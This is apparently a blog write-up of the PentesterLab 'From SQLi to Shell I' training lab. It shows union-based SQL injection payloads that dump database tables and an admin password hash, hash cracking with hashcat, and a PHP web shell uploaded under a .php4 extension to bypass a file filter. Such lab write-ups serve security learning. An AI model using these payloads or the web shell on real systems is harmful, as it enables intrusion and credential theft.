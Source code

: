 ```yaml
---
layout: post
title:  "PentesterLab SQL Injection Labs(Part 2)"
author: "e1ec30"
---
```


## From SQLi to Shell I

### Intro 
From the name and the introduction we learn that we can guess that the goal is to use sql injection to get shell on the webserver.

If you want to solve this on your own I'll recommend you only read the introduction part of the prompt because it's actually a step-by-step walkthrough

Below are the steps I followed to get shell on the web server and I'll confess I did read all of the prompt before attempting because this is my first time doing something like this. So this is just me doing everything that's there, which means if you want to solve it on your own you shouldn't read past this point either. Now with that out of the way, let's begin:

### Initial Recon
On starting the instance we see what a photoblog website:

![ ](/assets/images/sqlshell01_home.png)

After clicking around a bit we find out that most of the "tabs" are links to /cat.php with the query parameter id except for the "All pictures" tab which links to /all.php and "Admin" which links to /admin/ which redirects to /admin/login.php

![ ](/assets/images/sqlshell01_admin_login.png)


### Exploitation
If you have done the previous sql injection labs you might be thinking this is the injection point but trying out our payloads there doesn't seem to do anything, so we have to look somewhere else for the sql injection

Now if you remember /cat.php has a query parameter called id:


![ ](/assets/images/sqlshell01_cat_id.png)

So let's try to inject in that parameter:

we try: ```/cat.php?id=2 and 1=1```:

![ we get the same results ](/assets/images/sqlshell01_and_payload.png)

to confirm let's try: ```/cat.php?id=2 and 1=0```

![we see no results](/assets/images/sqlshell01_and_payload_n.png)

This means there's a sqli in that parameter

So how do we exploit that and eventually get a shell?

Well we can start by checking how many columns are requested in the original query by adding an ```ORDER BY``` clause, and how this works is in sql we can order our results by a column for example in this query: ```SELECT first_name, last_name from users```, we can order the results by the first name column by adding ```ORDER BY first_name``` to the end of the query but we can also address the columns by number instead of name, which means we can also write ```ORDER BY 1``` instead of ```ORDER BY first_name``` and we'll achieve the same results also if the number is bigger than the number of columns we get an error. So with that knowledge, we can do a quick "binary search":

`id=1 ORDER BY 6`, we get an error:

![ ](/assets/images/sqlshell01_order_err.png)

`id=1 ORDER BY 3`, we get results

`id=1 ORDER BY 4`, we get results

`id=1 ORDER BY 5`, we get an error

this way we know there are 4 columns in the original query.

How is that useful? you might ask, and the answer is because we want to use a `UNION` attack. The `UNION` keyword in SQL is used to 'piggyback' the results of one query into another and one of it's restrictions is that both queries have to have the same number of columns and we want to retrieve data from other tables in the database. The syntax of the `UNION` keyword is something like `SELECT first_name, last_name FROM users UNION SELECT name, description FROM products`

Now with that out of the way, we might try to get some basic information from the database like it's version and the current user.

also by trial and error we find out that the only column that is displayed is column 2

so we put all the information we want there and keep the rest as place holders:

`id=1 UNION SELECT 1,@@version,3,4` gives us the current version:

![ ](/assets/images/sqlshell01_version.png)

from here we can try to list the table names:

`id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

![ ](/assets/images/sqlshell01_table_name.png)

Hmm, there's a table called users, I wonder what it contains....

we can get the columns in all tables from `information_schema.columns` and with a `WHERE` clause we can restrict it to only the table where are interested in: 
`id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name='users'`:

![ ](/assets/images/sqlshell01_columns.png)

Okay so the users table has 3 columns:
1. `id`
2. `login`
3. `password`

The last two are what we are interested in, we can retreive them both even though only one column is displayed by using the `concat` function in SQL:

`id=1 UNION SELECT 1,concat(login,':',password),3,4 from users`:

![ ](/assets/images/sqlshell01_creds.png)

and we get what looks like the admin's credentials. Cool.

But there is one problem, when we try to login with those it still doesn't work.

That's because passwords aren't stored in plaintext in the database, they are passed through a [hash function](https://en.wikipedia.org/wiki/Hash_function), for security reasons.

So how do we convert this hash back to the password? Well hashes are one way functions so we can't really do that but what we _can_ do is [brute force](https://en.wikipedia.org/wiki/Brute-force_attack). We get a list of possible passwords(a dictionary) and hash each of them then compare it to the unknown hash, if they match then it's our password and we can use it to login.

I used [hashcat](https://hashcat.net) to do that and the file 10-million-password-list-top-10000.txt from [SecLists](https://github.com/danielmiessler/SecLists) as my dictionary:

![ ](/assets/images/sqlshell01_hashcat_cmd.png)

It seems we found a match, let's try it...

![ ](/assets/images/sqlshell01_try_creds.png)

...and it logs us in as the admin, SWEET!

![ ](/assets/images/sqlshell01_logged_in.png)

Now we are logged in as the admin, but we still don't have a shell...

After poking around in this new admin interface we find that we can delete and upload pictures

So how does that help us to get a shell?

Well sometimes developers don't correctly restricted the kind of files that can be uploaded to their applications, for example in this case, are we allowed to only upload images? or can we upload anything we want, for example, php files?

Why PHP? well remember we are dealing with a PHP application and so if we can upload a file with a .php extension the server will execute it which means we can run any PHP code we choose So let's try:
```
<?php
    echo system($_GET["cmd"]);
>
```
This will execute whatever we pass in in the query parameter cmd  to the php function `system` which will execute it in the shell and then echo it back so assuming it is on the path http://site.com/shell.php, if we go to http://site.com/shell.php?cmd=ls we will see the result of the ls command in our browser.

But when we try to upload it we see:

![ ](/assets/images/sqlshell01_failed_upload.png)

Hmm so the developers anticipated that, oops.
So what do we do?
Well we can try other extensions that will still be considered php by the server, for example .php3, .php4, .phtml... etc.

and sure enough, it works:

![ ](/assets/images/sqlshell01_upload_works.png)

![ ](/assets/images/sqlshell01_uploaded.png)

Okay but where's our shell?

If we click on our newly uploaded "image":

![ ](/assets/images/sqlshell01_shell_image.png)

It's broken(obviously, because it's a php file and not an image)

but if we try to inspect the element in our browser:

![ ](/assets/images/sqlshell01_inspect_shell.png)

we see that it's at `/admin/uploads/shell.php4` which means if we go to `/admin/uploads/shell.php4?cmd=id`...

![ ](/assets/images/sqlshell01_shell_run.png)

we get the results of the `id` command back, which means our shell worked! Phew!!